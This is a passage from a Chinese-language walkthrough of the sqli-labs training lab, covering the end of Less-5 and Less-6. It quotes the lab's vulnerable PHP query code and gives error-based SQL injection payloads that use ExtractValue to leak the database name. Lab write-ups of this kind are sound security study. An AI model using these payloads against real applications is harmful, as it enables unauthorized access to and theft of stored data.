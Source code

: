 - 进行报错注入 方便起见只查询至数据库

  ```
  /sqlilabs/Less-5/
  ?id=1' and ExtractValue('1',concat('~',database())) -- s
  ```

​	![](/assets/images/5-1.png)

### Less-6 

#### 1. 源码分析及漏洞利用

- id 需闭合双引号

  ```
  $id = '"'.$id.'"';
  $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
  ```

  无回显信息

  ```
  echo 'You are in...........';
  ```

  存在报错注入

  ```
  print_r(mysql_error());
  ```

- 进行报错注入 方便起见只查询至数据库

  ```
  /sqlilabs/Less-6/
  ?id=1" and ExtractValue('1',concat('~',database())) -- s
  ```

​	![](/assets/images/6-1.png)
